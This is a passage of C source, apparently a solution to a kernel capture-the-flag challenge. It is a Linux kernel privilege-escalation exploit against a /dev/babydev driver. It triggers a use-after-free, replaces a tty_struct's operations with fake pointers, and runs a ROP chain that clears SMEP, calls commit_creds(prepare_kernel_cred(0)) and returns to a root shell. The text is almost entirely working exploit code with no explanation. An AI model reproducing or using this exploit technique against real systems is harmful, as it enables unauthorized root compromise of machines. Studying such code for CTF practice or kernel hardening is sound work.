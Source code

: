 ```c
            vmlinux_base = commit_creds - 0x9c8e0;
            printf("[*]vmlinux base => %llx\n",vmlinux_base);
        }
        if(strstr(buf,"prepare_kernel_cred") && !prepare_kernel_cred){
            char hex[0x20] = {0};
            strncpy(hex,buf,0x10);
            sscanf(hex,"%llx",&prepare_kernel_cred);
            vmlinux_base = prepare_kernel_cred - 0x9cce0;
            printf("[*]vmlinux base => %llx\n",vmlinux_base);
        }
    }
}

size_t raw_vmlinux_base = 0xffffffff81000000;

int main()
{
    save_status();
    //FindVmlinuxBase();

    printf("[*]prepare_kernel_cred addr:%p\n",prepare_kernel_cred);
    printf("[*]commit_creds addr:%p\n",commit_creds);
    //rops
    size_t rop[0x20];
    int i = 0;
    rop[i++] = 0xffffffff810d238d;
    rop[i++] = 0x6f0;
    rop[i++] = 0xffffffff81004d80;
    rop[i++] = 0;
    rop[i++] = (size_t)BeRoot;
    rop[i++] = 0xffffffff81063694;
    rop[i++] = 0;
    rop[i++] = 0xffffffff814e35ef;
    rop[i++] = (size_t)GetRootShell;
    rop[i++] = user_cs;
    rop[i++] = user_rflags;
    rop[i++] = user_sp;
    rop[i++] = user_ss;
    //fake tty operations
    void* fake_ops[32];

    //UAF to leak the initial tty_struct
    int fd1 = open("/dev/babydev",2);
    int fd2 = open("/dev/babydev",2);
    ioctl(fd1,0x10001,0x2e0);
    close(fd1);
    //now we have a UAF :)
    int tty_fd = open("/dev/ptmx",O_RDWR|O_NOCTTY);//use the former released one
    size_t fake_tty_struct[4] = {0};
    read(fd2,fake_tty_struct,0x20);
    fake_tty_struct[3] = (size_t)fake_ops;
    for(int j=0; j < 30;j++)
        fake_ops[j] = 0xFFFFFFFF8181BFC5;
    fake_ops[0] = 0xffffffff810635f5;//lookup func
    fake_ops[1] = (size_t)rop;//install 
    fake_ops[3] = 0xFFFFFFFF8181BFC5;//open
    write(fd2,fake_tty_struct,0x20);//write back
    char buf[8] ={0};
    write(tty_fd,buf,8);
    return 0;
}
```
